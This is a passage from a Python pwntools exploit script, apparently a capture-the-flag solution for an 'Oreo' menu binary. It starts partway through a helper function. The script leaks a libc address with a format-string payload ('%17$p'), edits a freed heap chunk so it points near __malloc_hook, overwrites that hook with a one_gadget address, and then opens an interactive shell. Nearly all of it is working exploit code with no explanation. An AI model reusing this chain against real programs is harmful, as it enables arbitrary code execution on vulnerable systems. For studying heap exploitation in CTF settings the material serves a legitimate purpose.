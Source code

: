 ```python
	r.sendline('4')
	r.recvuntil("> Oreo ID : ")
	r.sendline(str(index))

def edit(index, content1, content2):
	r.recvuntil("#######################\n")
	r.sendline('2')
	r.recvuntil("> Oreo ID : ")
	r.sendline(str(index))
	r.recvuntil("> O : ")
	r.sendline(content1)
	r.recvuntil("> RE : ")
	r.sendline(content2)

r.recvuntil("> Input your code please:")
r.sendline("OreOOrereOOreO%17$p")	#elf 11 libc 17

r.recvuntil("#######################\n")
r.sendline('0')
r.recvuntil("# Your Code is ")
r.recvuntil('0x')

start_main = int(r.recv(12), 16) - 0xf0
libc.address = start_main - libc.sym['__libc_start_main']


malloc_hook = libc.sym['__malloc_hook']
one_gadget = one_gadget_16[3] + libc.address
#realloc=libc.address+libc.sym['__realloc_hook']

success("start+main"+hex(start_main))
success("libc_base:"+hex(libc.address))


add(0x68, 'aaaa', 0x68, 'bbbb')
delete(1)
edit(1,'\x00'*8,p64(malloc_hook-0x23))
gdb.attach(r)

payload='a'*(0x13)+p64(one_gadget)
add(0x68,'a'*16,0x68,payload)

gdb.attach(r)

r.recvuntil("#######################\n")
r.sendline('1')
r.recvuntil("> O's length : ")
r.sendline(str(0x68))

r.interactive()

```
